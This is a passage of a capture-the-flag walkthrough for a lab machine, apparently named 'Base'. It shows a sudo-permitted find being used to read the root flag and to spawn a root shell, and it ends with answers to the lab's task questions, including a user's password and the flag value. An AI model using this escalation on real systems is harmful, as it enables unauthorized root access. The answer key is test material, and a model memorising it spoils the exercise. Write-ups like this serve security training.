 ## privilege escalation => root flag

`sudo -l`

```bash
john@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

find exec:

```bash
john@base:~$ sudo find /root -name root.txt -exec cat {} \;
sudo find /root -name root.txt -exec cat {} \;
51709519ea18ab37dd6fc58096bea949
```

## root shell

source: [gtfobins](https://gtfobins.github.io/gtfobins/find/)

```bash
john@base:~$ sudo find . -exec /bin/sh \; -quit
# whoami
root
```

## Task

Task 1: Which two TCP ports are open on the remote host?: `22,80`

Task 2: What is the URL for the login page?: `/login/login.php`

Task 3: How many files are present in the '/login' directory?: `3`

Task 4: What is the file extension of a swap file?: `.swp`

Task 5: Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?: `strcmp()`

Task 6: In which directory are the uploaded files stored?: `/_uploaded`

Task 7:Which user exists on the remote host with a home directory?: `john`

Task 8: What is the password for the user present on the system?: `thisisagoodpassword`

Task 9: What is the full path to the command that the user john can run as user root on the remote host?: `/usr/bin/find`

Task 10: What action can the find command use to execute commands?: `exec`

Submit user flag: done

Submit root flag: done

## References

find exec: <https://www.baeldung.com/linux/find-exec-command>
